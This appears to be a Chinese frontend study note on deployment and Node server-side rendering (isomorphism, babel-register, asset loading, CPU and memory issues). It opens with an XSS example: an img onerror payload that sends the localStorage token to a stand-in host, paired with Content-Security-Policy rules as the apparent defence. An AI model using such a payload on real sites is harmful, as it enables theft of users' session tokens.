 ```
<img/src=x onerror="(new Image()).src = 'http://a.com?token='+ localStorage.getItem('token')">

Content-Security-Policy：default-src 'self'; img-src https://*; child-src 'none';

<meta http-equiv="Content-Security-Policy" content="default-src 'self'; img-src https://*; child-src 'none';">

Content-Security-Policy：default-src 'self'; img-src https://*; child-src 'none';
```

## 部署

* 前后端不同端口
* 后端允许跨域

## 服务端渲染 Server Side Render SSR

* 不同于客户端渲染，服务端渲染会在后端把页面 DOM 的结构树转成 String 吐出来，然后到前端（如浏览器）解析渲染。
* 优势
  - SEO: 现在单页面应用由于体验好，广泛流行。但单页应用的做法往往是后端只吐出一个页面的框架，里面没有具体内容，然后前端通过 Ajax 动态拉取内容。这就导致爬虫去访问你的站点时，服务端返回给爬虫的只有一个架子，爬虫无法抓取页面关键词之类等信息。
  - 首屏直出:在用户首次访问的时候不用再看到菊花在那里转呀转 (Loading...) ，首屏就可以看到页面所有内容。另外可以在服务端通过 HTTP 接口合并请求等方式，让页面打开的首屏时间缩短。
* Node 服务端渲染有什么特别？

同构（isomorphic）！我想这个应该是用 Node 做服务端渲染最大的优势。那么什么是同构呢？

其实同构大多是由 isomorphic 单词翻译来的，这个单词含义比较难理解，现在也有很多叫做 universal app。意思差不多，就是说能够实现一套代码在服务端跟客户端同时运行。

假如我们客户端的页面是 React 写的，那么这套代码也能在服务端运行，并进行渲染，这就是同构的概念。同一份代码，运行构建于两端。因为都是 javascript 语法，所以用 Node 做服务器渲染在这方面有天生的优势。

用 Node 做同构有什么难点？

运行环境支持

现在的前端开发，大多数用的是 ES6/7 的语法，然后用 Babel 编译成 ES5/3 后让浏览器运行。 Node 对 ES6/7 的支持并不是十分友好，就算是最新版本的 node，也不还是不支持 ES Module （就是我们常看到的 import 语法引入模块）。所以要达到同一份代码两端运行的目的，就必须磨平运行环境的差异。

那么该如何做呢？答案就是 babel-register。

babel-register 模块会改写 require 命令，为它加上一个钩子。此后，每当使用 require 加载 .js 、 .jsx 、 .es 和 .es6 后缀名的文件，就会先用 Babel 进行转码。当然，这就要求你必须在你服务端入口文件的顶部率先加载这个模块。

资源加载

如果说磨平环境差异还不算困难，那让 Node 支持多种资源类型加载估计是要让你头皮发麻了。 比如说我们现在用 react 开发 app ，app 中必然涉及到 css/scss 、 png/jpg 、 font 等文件的加载吧？我们一般是通过webpack的loader来处理的，那这段代码运行在服务端会怎么样？必然是血崩。。。

node require 默认就只支持加载 .json .js 等几种文件，所以如何保证客户端渲染出来的代码跟服务端渲染出来的代码一致呢（在 react 应用中，react 会检查客户端渲染出来的结构是否跟客户端渲染出来的一致，如果不一致的话，会在客户端重渲染）？这里提供两套思路：

客户端跟服务端用同一套 webpack 打包后的资源。webpack-isomorphic-tools 可以很好的解决这个问题，或者最新的 webpack 版本 target: node 也能实现。

png/jpg/font 等文件直接忽略（在 babel-register 里可以设置），scss/css的话，用 css in js 的方式写。

* 总结:Node服务端渲染好处多多，但除了上述技术性的问题需要解决外，仍然有些线上问题需要注意。
  - 服务器 cpu 过高问题，因为现在页面结构是在服务端以 renderToString 的方式输出，所以页面请求路由会涉及到大量的计算。这就会导致如果页面并发高一点的话，会出现 cpu 过高的问题。
  - 在服务端可没有什么 window 、 document 对象，这些东西也需要去 hook 掉；在 React 应用中，componentDidMount 等生命周期函数也不会在服务端触发；定时器记得及时释放，否则可能会导致内存泄露的风险！
  - 确定要用 node 做服务端渲染的话，建议应该用一些开源成熟的框架。比如在 react 体系下比较有代表性的 next.js， vue 体系下的 Nuxt.js
* [前端性能优化之加载技术](https://juejin.im/post/59b73ef75188253db70acdb5)
* [SSR VR CSR](https://medium.com/walmartlabs/the-benefits-of-server-side-rendering-over-client-side-rendering-5d07ff2cefe8) 什么是服务端渲染
